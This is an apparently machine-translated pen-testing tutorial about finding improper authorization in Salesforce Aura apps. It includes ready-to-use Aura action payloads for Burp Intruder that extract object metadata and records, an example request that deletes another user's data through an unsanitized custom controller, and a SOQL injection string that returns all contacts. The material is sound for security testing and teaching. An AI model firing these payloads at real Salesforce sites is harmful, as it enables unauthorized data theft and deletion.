


# 笔测试 Salesforce 应用程序:第 2 部分(模糊和利用)

> 原文：<https://infosecwriteups.com/in-simple-words-pen-testing-salesforce-saas-application-part-2-fuzz-exploit-eefae11ba5ae?source=collection_archive---------0----------------------->

简而言之:对于笔测试人员和安全研究人员

这是一篇关于笔测试 Salesforce SAAS 应用程序的两部分博客。[第 1 部分](/in-simple-words-pen-testing-salesforce-saas-application-part-1-the-essentials-ffae632a00e5)侧重于理解 Salesforce 基础知识，第 2 部分侧重于实际的 Pen 测试步骤。我们开始吧。



**工具-** 我们将使用 Burp 术语来识别漏洞并加以利用，这可以通过任何 HTTP 请求/响应拦截器复制，如 OWASP ZAP。

# 不当授权-涉及的步骤

1.  预检
2.  侦察
3.  起毛
4.  检索敏感信息

# 1.预检

应用程序需要使用一种 Salesforce 编程技术，如 Aura components，以使其容易受到“不当授权”的攻击。因此，让我们首先检查光环是否启用。

*   通过 Burp 浏览器浏览应用程序并检查 HTTP 历史记录，如果这些 Aura 路径中的一个可见，则可能存在不当授权漏洞。

```
**AURA PATHS:**/s/sfsites/aura
/aura
/sfsites/aura
```

*   如果没有，在 Repeater 中，通过在主机后立即添加上述路径来发出 POST 请求，并检查响应，您应该会看到以下模式之一。如果运气不好，也可以通过将这些路径附加到已识别的分支来检查，比如 https://redacted.force.com/sales/aura 的[而不是 https://redacted.force.com/aura 的](https://redacted.force.com/sales/aura)

```
**RESPONSE PATTERNS:****"actions":[** or 
**aura:clientOutOfSync** or 
**aura:invalidSession**
```

这应该确认 Salesforce web 应用程序正在使用 Aura。

# 2.侦察

如果你记得在第一部分的结尾，我们的目标是识别对象、控制器、动作和参数，然后模糊它们。让我们来一个一个地识别它们。

**标准对象** -您可以在下面找到 Salesforce 提供的标准对象的完整列表。

[](https://developer.salesforce.com/docs/atlas.en-us.api.meta/api/sforce_api_objects_list.htm) [## 标准对象| SOAP API 开发者指南| Salesforce 开发者

### 构建强大的服务器端解决方案，使用 SOAP API 集成您的 Salesforce 数据。选择 Web 服务…

developer.salesforce.com](https://developer.salesforce.com/docs/atlas.en-us.api.meta/api/sforce_api_objects_list.htm) 

现在将它们复制到一个文本文件中，我们称之为 objects.txt，稍后我们将使用它来模糊请求。

**自定义对象** -为了区分自定义对象，没有硬性规定，但是 Salesforce 标准要求您在自定义对象名称的末尾添加一个“ **__c** ”。我们可以使用“ **getObjectInfo** ”和“ **getHostConfig** ”控制器动作来检索定制对象。我们将在模糊部分看到它。一旦你得到它们，就把它添加到 objects.txt 列表中。

**标准控制器和动作** -有几个 JS 文件作为任何 Salesforce web 应用程序的一部分被加载，并且包含关于标准控制器、动作以及有时自定义控制器的信息。

1.  **app.js**
2.  **aura_prod.js**

这些 JS 文件响应中的以下模式。

```
**PATTERN GREP:**componentService.initControllerDefs([{
```

所有重要的控制器都会列在这个下面。这是控制器的标准模式。



JS 文件中的控制器和动作

您可以将它们复制到文本文件中，或者在需要时使用这些控制器。

定制控制器和动作- 定制控制器也应该在 JS 文件中可用，或者有时当您通过 Burp 浏览器浏览应用程序时，您可能会在 HTTP 请求中找到它们。你一定很好奇如何区分标准控制器和客户控制器。一种选择是，由于开发了定制控制器，它们的路径可以以“ **apex://** 开始，而不是“ **aura://**

```
**STANDARD CONTROLLER:****aura**://RecordUiController/ACTION$getObjectInfo**CUSTOM CONTROLLER:****apex**://New_Sales_Controller/ACTION$getSalesData
```

# 模糊理解后端权限

我已经创建了一个控制器和动作的列表，你可以帮助你找出某些信息，以及更多的元数据。

**打嗝步骤**

1.  将任何带有光环终点的帖子发送到中继器
2.  用以下选项替换请求中的“**消息**”参数。
3.  发送给入侵者
4.  在 params (objectApiName，entityNameOrId)中选择 ******* 作为入侵者的位置
5.  让“有效载荷类型”保持为简单列表
6.  上传 objects.txt 文件或粘贴“有效负载选项”中的对象列表，并尽可能对所有对象运行它

注意-你可以模糊他们作为一个客人用户和不同的认证用户来理解权限

**getObjectInfo -** 了解用户是否有权访问该对象。如果用户没有访问权限，它将不会返回任何信息性响应。如果可以访问，这将返回有关对象及其相应字段的信息。注意每个对象响应中的“__c ”,记下自定义对象。使用 objects.txt 对入侵者中的所有对象运行此命令。

```
{"actions":[{"id":"1;a","descriptor":"aura://RecordUiController/ACTION$getObjectInfo","callingDescriptor":"UHNKNOWN","params":{"objectApiName":"***"}}]}
```

返回一个对象列表。请注意“__c”以记录自定义对象。

```
{"actions":[{"id":"1;a","descriptor":"aura://HostConfigController/ACTION$getConfigData","callingDescriptor":"UHNKNOWN","params":{}}]}
```

**getListByObjectName** -返回为 UI 中的对象创建的列表。使用 objects.txt 对入侵者中的所有对象运行此命令

```
{"actions":[{"id":"1;a","descriptor":"aura://ListUiController/ACTION$getListsByObjectName","callingDescriptor":"UHNKNOWN","params":{"objectApiName":"***"}}]}
```

现在你必须有足够的关于对象、控制器和它们的元数据的信息。让我们看看如何获得一些实际记录。

# 检索敏感信息

检索实际的数据或记录与我们检索元数据的方式不会有很大的不同，我们也将使用控制器和动作。为了更好地理解，让我们将权限错误配置映射到利用技术。

**错误配置 1 -扰乱组织。广泛共享默认值和设置广泛共享规则**

如果管理员通过管理面板破坏了共享权限，那么使用像这样的标准控制器，您应该能够检索记录。

**getItems**——检索与用户对应的给定对象的记录，但是如果记录权限配置错误，这可能会检索整个对象的记录。使用 objects.txt 对入侵者中的所有对象运行此命令。

```
{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"***","layoutType":"FULL","pageSize":100,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}
```

**getRecord** -根据记录 id 检索记录。这主要适用于经过身份验证的用户。如果在任何控制器响应中，您找到" id ":，请针对下面的控制器和操作尝试该值。替换下面 recordId 值中的***符号。

一个 Id 一般是这样的——“Id”:“0099g 000001 mwqayhu”

```
{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.detail.DetailController/ACTION$getRecord","callingDescriptor":"UNKNOWN","params":{"recordId":"***","record":null,"inContextOfComponent":"","mode":"VIEW","layoutType":"FULL","defaultFieldValues":null,"navigationLocation":"LIST_VIEW_ROW"}}]}
```

**错误配置 2——创建定制控制器而不进行适当的清理**

让我们假设一个开发人员创建了几个自定义控制器来从一个自定义对象**Sales data _ _ c****apex**://New _ Sales _ Controller/ACTION $ getsaledata，这将检索所有用户的销售数据，另一个控制器将删除基于 Id **apex** 的销售数据://New _ Sales _ Controller/ACTION $ deletesaldatabyid

```
**getSalesData**{"actions":[{"id":"1;a","descriptor":"**apex**://New_Sales_Controller/ACTION$getSalesData","callingDescriptor":"UNKNOWN","params":{}}]}**deleteSalesDataById**{"actions":[{"id":"1;a","descriptor":"**apex**://New_Sales_Controller/ACTION$deleteSalesDataById","callingDescriptor":"UNKNOWN","params":{"id":"***"}}]}
```

假设实际权限是这样工作的，所有用户都可以查看 getSalesData，而 deleteSalesDataById 只能用于删除当前用户的销售数据。但是开发人员忽略了清理 **deleteSalesDataById。**

运行**getsaledata**返回以下响应:

```
{
 "actions":[
   {
     "id":"123;a",
     "state":"SUCCESS",
     "returnValue":{
        "result":[
          {
            "record":{
              "Name":"User1",
              "Company Name":"Company1",
              "email":"User1@comapny1.com",
              "Year":"2020",
              "Sales":"5725",
              "Id":"0099g000001mWQsVSK",
          }
        },
        {
            "record":{
              "Name":"User2",
              "Company Name":"Company2",
              "email":"User2@comapny2.com",
              "Year":"2020",
              "Sales":"5725",
              "Id":"0099g000001mWQaYHU",
          }
        }
```

假设当前用户是 user1，让我们试着删除 user2。这可以通过从上面的响应中复制 User 的“Id”参数并将其粘贴到 deleteSalesDataById 中来完成

```
**deleteSalesDataById**{"actions":[{"id":"1;a","descriptor":"**apex**://New_Sales_Controller/ACTION$deleteSalesDataById","callingDescriptor":"UNKNOWN","params":{"id":"0099g000001mWQaYHU"}}]}
```

由于这是一个自定义控制器，并且没有进行适当的消毒检查，因此用户 1 可以删除用户 2 的销售数据。

简而言之，找到正确的控制器和动作是检索记录的关键。

**SOQL 注射液**

这与传统的 SQL 注入非常相似，除了:

*   SOQL 只允许 SELECT 语句，不允许 INSERT、UPDATE 或 DELETE
*   同样，没有 UNION、JOIN 操作符或任何命令执行。

你是否在想，在所有这些限制之后，真的还有什么可以利用的吗？

当然，是的，如果后端代码在没有适当验证的情况下接受用户在查询中的输入，可以修改选择查询来获取更多数据。让我们举一个 Salesforce 的例子。

```
**USER INPUT** name=bob**VULNERABLE QUERY** SELECT Id FROM Contact WHERE (IsDeleted = false and Name like '%Bob%')
```

除了用户输入被直接插入到查询中的事实之外，从上面的查询中需要注意的一件重要事情是，SOQL 支持使用 LIKE 的通配符。在这里，将在 Contact 表中搜索包含单词“bob”的所有内容。现在，让我们注入一个有效载荷。

```
**USER INPUT** name: test%') OR (Name LIKE '**VULNERABLE QUERY** SELECT Id FROM Contact WHERE (IsDeleted = false AND Name LIKE '%test%') OR (Name LIKE '%')
```

这将返回所有联系人。你可能会问，如果我们的最终目标是以“%”结束，为什么我们不能给出单引号。问得好，在 SQL 注入中，执行一次注入后，你可以用'—'注释掉，对吗？在 SOQL 中，没有办法添加注释，所以我们需要处理作为原始查询的一部分存在的% '。因此增加了 OR，并以单引号结束，正如我们所想的那样。

我希望你喜欢阅读博客:)日安！

## 参考

*   [https://help.salesforce.com/articleView?id = SF . review _ and _ certification . htm&type = 5](https://help.salesforce.com/articleView?id=sf.review_and_certification.htm&type=5)
*   https://www.enumerated.de/index/salesforce#classes